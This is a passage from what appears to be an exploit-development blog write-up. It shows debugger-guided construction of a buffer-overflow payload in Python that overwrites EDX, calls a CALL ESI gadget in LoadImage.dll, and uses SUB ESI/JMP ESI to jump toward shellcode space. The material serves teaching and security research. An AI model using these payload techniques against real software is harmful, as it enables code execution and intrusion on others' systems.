 That meant EDX needed to be set to 0x019F6940, since 0x019F6940 + 28 = 0x019F6968. The payload was updated to reflect this: 

```python
payload =  "A"*80
payload += struct.pack("<I", 0x019F6940)
payload += "C"*108
payload += struct.pack("<I", 0x10023701)
payload += "C"*196
```

I executed PoC again and hit F9 until the payload was received. EDX had now been set to 0x019F6940 and the CALL instruction showed that it was pointing to 0x10023701, an address in LoadImage.dll. I hit F7 to step into the function and it took me to the CALL ESI instruction as expected. 

ESI was pointing to 0x019F68E8, which was 64 bytes into the payload: 

->![](/images/2014-05-14/17.png)<-

There were only 16 bytes to work with here, but there was plenty of space in the buffer of "C"s starting at 0x019F68FC. 

Since I had put the address of CALL ESI in 0x019F6968, I wanted to store my shellcode past that address. That was too far from my current location, so a short jump wouldn't work.

Fortunately, I could reuse ESI again by adding a value to it, and then doing a JMP ESI to jump to that new location. Adding 90 bytes to ESI was sufficient to sail over 0x019F6968: 

```python
payload =  "A"*64                            # padding
payload += "\x81\xee\x70\xff\xff\xff"        # SUB ESI,-90
payload += "\xff\xe6"                        # JMP ESI
payload += "A"*8                             # padding
payload += struct.pack("<I", 0x019F6940)     # overwrite EDX with pointer to CALL ESI
payload += "C"*108                           # padding
payload += struct.pack("<I", 0x10023701)     # pointer to CALL ESI
```

I ran the PoC once again, and stepped through the instructions. Everything worked as before, and after CALL ESI was executed, the execution went to the SUB ESI,-90 and JMP ESI instructions: 

->![](/images/2014-05-14/18.png)<-
